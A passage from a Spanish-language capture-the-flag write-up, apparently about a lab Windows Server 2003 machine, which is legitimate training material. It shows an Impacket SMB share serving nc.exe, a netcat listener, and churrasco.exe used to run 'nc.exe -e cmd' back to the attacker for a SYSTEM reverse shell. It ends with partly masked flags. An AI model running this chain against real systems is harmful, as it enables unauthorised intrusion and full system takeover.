 Desde nuestro equipo atacante, deberemos de disponer del binario `nc.exe` y levantar nuevamente un servidor SMB para compartir este otro binario.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sat Jan 25 22:49:55 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

En una nueva terminal nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Desde el equipo víctima, ejecutaremos dos veces el binario `churrasco.exe` indicándole que ejecute el binario que estamos compartiendo a través de un recurso compartido, al ejecutar el binario nos proporcionará una Reverse Shell.

```bash
C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"

C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
```

Verificamos que hemos logrado la conexión y que somos el usuario `NT AUTHORITY\SYSTEM`. Por otro lado, comprobamos que logramos visualizar las flags de **user.txt** y **root.txt**.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c05*********************

C:\Documents and Settings\Administrator\Desktop>type "C:\Documents and Settings\Lakis\Desktop\user.txt"
type "C:\Documents and Settings\Lakis\Desktop\user.txt"
700c5dc1*************************
```
